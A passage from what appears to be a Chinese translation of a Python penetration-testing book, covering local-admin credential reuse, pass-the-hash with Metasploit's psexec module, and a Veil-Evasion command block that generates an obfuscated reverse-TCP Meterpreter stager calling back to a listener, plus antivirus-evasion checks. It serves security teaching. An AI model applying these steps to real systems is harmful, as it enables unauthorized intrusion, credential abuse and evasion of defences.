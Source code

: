 因此，我们配置模块使用密码`batman`，并且目标是系统上的本地管理员账户。这可以更改，但通常使用默认值。由于它是本地管理员，域设置为`WORKGROUP`。下图显示了模块的配置：

![测试账户凭据同步](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest-py/img/B04315_05_22.jpg)

### 注意

在运行这些命令之前，请确保使用 spool 将结果输出到日志文件中，以便您可以返回并查看结果。

正如您在下图中所看到的，该账户提供了有关谁登录到系统的详细信息。这意味着返回的账户名称中有相关的已登录用户，并且本地管理员账户将在该系统上起作用。这意味着这个系统很容易受到“传递哈希攻击”（PtH）的威胁。

![测试账户凭据同步](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest-py/img/B04315_05_23.jpg)

### 注意

`psexec`模块允许您传递提取的本地区域网络管理器（LM）：新技术 LM（NTLM）哈希和用户名组合，或者只是用户名密码对来获取访问权限。

首先，我们设置一个自定义的 multi/handler 来捕获 Veil 生成的自定义利用程序，如下例所示。请记住，我使用`443`作为本地端口，因为它可以绕过大多数 HIPS，而本地主机将根据您的主机而变化。

![测试账户凭据同步](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest-py/img/B04315_05_24.jpg)

现在，我们需要使用 Veil 生成自定义有效载荷，以便与`psexec`模块一起使用。您可以通过导航到`Veil-Evasion`安装目录并使用`python Veil-Evasion.py`来执行此操作。Veil 有许多有效载荷，可以使用各种混淆或保护机制生成，要查看要使用的特定有效载荷，执行`list`命令。您可以通过输入有效载荷的编号或名称来选择有效载荷。例如，运行以下命令生成一个不使用 shell 代码的 C#分段器，但请记住，这需要目标计算机上特定版本的.NET 才能工作。

```py
use cs/meterpreter/rev_tcp
set LPORT 443
set LHOST 192.168.195.160
set use_arya Y
generate

```

### 注意

典型有效载荷有两个组成部分，分别是分段器和阶段。分段器在攻击者和受害者之间建立网络连接。通常使用本地系统语言的有效载荷可以是纯粹的分段器。第二部分是阶段，这些是由分段器下载的组件。这些可以包括像 Meterpreter 这样的东西。如果两个项目结合在一起，它们被称为单个；想想当你创建你的恶意**通用串行总线**（**USB**）驱动器时，这些通常是单个。

输出将是一个可执行文件，将生成一个加密的反向**超文本传输安全协议（HTTPS）** Meterpreter。

![测试帐户凭据的同步](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest-py/img/B04315_05_25.jpg)

有效载荷可以使用脚本`checkvt`进行测试，该脚本可以安全地验证有效载荷是否会被大多数 HIPS 解决方案拾取。它可以在不上传到 Virus Total 的情况下进行此操作，也不会将有效载荷添加到数据库中，许多 HIPS 提供商都会从中提取。相反，它会将有效载荷的哈希与数据库中已有的哈希进行比较。

![测试帐户凭据的同步](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest-py/img/B04315_05_26.jpg)

现在，我们可以设置`psexec`模块以引用自定义有效载荷进行执行。

![测试帐户凭据的同步](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest-py/img/B04315_05_27.jpg)

更新`psexec`模块，使其使用由`Veil-Evasion`生成的自定义有效载荷，通过设置`EXE::Custom`并使用`set DisablePayloadHandler true`禁用自动有效载荷处理程序，如下所示：

